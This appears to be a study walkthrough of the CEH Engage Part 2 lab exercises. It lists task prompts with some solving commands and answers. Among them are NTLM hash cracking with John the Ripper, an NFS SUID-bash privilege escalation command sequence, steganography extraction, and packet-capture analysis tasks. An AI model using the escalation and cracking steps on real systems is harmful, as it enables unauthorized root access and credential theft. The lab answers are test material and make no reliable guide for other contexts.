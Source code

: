 # 2️⃣ CEH Engage Part 2



You are assigned a task to crack the NTLM password hashes captured by the internal security team. The password hash has been stored in the Documents folder of the Parrot Security console machine. What is the password of user James?

```
john --format=NT hashes.txt
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>



You are assigned a task to crack the NTLM password hashes captured by the internal security team. The password hash has been stored in the Documents folder of the Parrot Security console machine. What is the password of user Jones?

```
john --format=NT hashes.txt
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>



You have got user-level access to the machine with IP 172.16.0.11. Your task is to escalate the privileges to that of the root user on the machine and read the content in the rootflag.txt file. (Note: all the flag files are located at the root, Desktop, Documents, or Downloads folder for the respective users/machines). Note: use LinuxPass when asked for machine password.

```
nmap -sV <IP addr>
```

```
sudo apt-get install nfs-common
```

```
showmount -e <IP addr>

mkdir /tmp/nfs

sudo mount -t nfs <IP addr>:/home /tmp/nfs

cd /tmp/nfs

sudo cp /bin/bash

sudo chmod +s bash

ls -la bash

ssh -l ubuntu <IP addr>

cd /home

./bash -p

id
```



<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>



An employee in your organization is suspected of sending important information to an accomplice outside the organization. The incident response team has intercepted some files from the employee's system that they believe have hidden information. You are asked to investigate a file named Confidential.txt and extract hidden information. Find out the information hidden in the file. Note: The Confidential.txt file is located at C:\Users\Admin\Documents in EH Workstation – 2 machine.

```
SNOW.EXE -C Confidential.txt
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>



The incident response team has intercepted an image file from a communication that is supposed to have just text. You are asked to investigate the file and check if it contains any hidden information. Find out the information hidden in the file. Note: The vacation.bmp file is located at C:\Users\Admin\Documents in EH Workstation – 2 machine.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>



You are a malware analyst working for CEHORG. During your assessment within your organisation's network, you found a malware face.exe. The malware is extracted and placed at C:\Users\Admin\Documents in the EH Workstation – 2 machine. Analyze the malware and find out the File pos for KERNEL32.dll text. (Hint: exclude zeros.)



<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>











Analyze an ELF executable (Sample-ELF) file placed at C:\Users\Admin\Documents in the EH Workstation – 2 machines to determine the CPU Architecture it was built for.

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>





You have been given a task to audit the passwords of a server present in CEHORG network. Find out the password of the user Adam and submit it. (Note: Use Administrator/ CSCPa\$$ when asked for credentials).

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>









Use Yersinia on the “EH Workstation – 1” (Parrot Security) machine to perform the DHCP starvation attack. Analyze the network traffic generated during the attack and find the Transaction ID of the DHCP Discover packets.

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>



CEHORG suspects a possible sniffing attack on a machine in its network. The organization has retained the network traffic data for the session and stored it in the Documents folder in EH Workstation – 2 (Windows 11) machine as sniffsession.pcap. You have been assigned a task to analyze and find out the protocol used for sniffing on its network.

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>



As an ethical hacker, you are tasked to analyze the traffic capture file webtraffic.pcapng. Find out the packet's id that uses ICMP protocol to communicate. Note: The webtraffic.pcapng file is located at C:\Users\Administrator\Documents\ in the Documents folder on EH Workstation – 2 (Windows 11) machine.

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>



An attacker has created a custom UDP packet and sent it to one of the machines in the CEHORG. You have been given a task to study the ""CustomUDP.pcapng"" file and find the data size of the UDP packet (in bytes). Note: The CustomUDP.pcapng file is located at C:\Users\Administrator\Documents\ in the Documents folder on EH Workstation – 2 (Windows 11) machine.

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>



A denial-of-service attack has been launched on a target machine in the CEHORG network. A network session file "DoS.pcapng" has been captured and stored in the Documents folder of the EH Workstation - 2 machine. Find the IP address of the attacker's machine.

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>



A machine in CEHORG network has been installed with a spyware by an Ex-employee. You are given a task to connect to the attacked machine to find out the hidden flag in the documents folder.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>









A disgruntled employee in CEHORG has used the Covert\_TCP utility to share a secret message with another user in the CEHORG network. Covert\_TCP manipulates the TCP/IP header of the data packets to send a file one byte at a time from any host to a destination. It can be used to hide the data inside IP header fields. The employee used the IP ID field to hide the message. The network capture file “Capture.pcapng” has been retained in the “C:\Users\Administrator\Documents” directory of the “EH Workstation – 2” machine. Analyze the session to get the message that was transmitted.



<figure><img src="../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>





CEHORG has assigned you with analysing the snapshot of the operating system registry and perform the further steps as part of dynamic analysis and find out the whether the driver packages registry is changed. Give your response as Yes/No.

\-> Yes





Perform windows service monitoring and find out the service type associated with display name "afunix".



<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





CEHORG has found that one of its web application movies.cehorg.com running on its network is leaking credentials in plain text. You have been assigned a task of analysing the movies.pcap file and find out the leaked credentials. Note: The movies.pcapng file is located at C:\Users\Administrator\Documents\ in the Documents folder on EH Workstation – 2 (Windows 11) machine. Make a note of the credentials obtained in this flag, it will be used in the Part 4 of CEH Skill Check.

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>



CEHORG hosts a datacenter for its bussiness clients. While analyzing the network traffic it was observed that there was a huge surge of incoming traffic from multiple sources. You are given a task to analyze and study the DDoS.pcap file. The captured network session (DDoS.pcapng) is stored in the Documents folder of the EH Workstation -2 machine. Determine the number of machines that were used to initiate the attack.

\-> 3

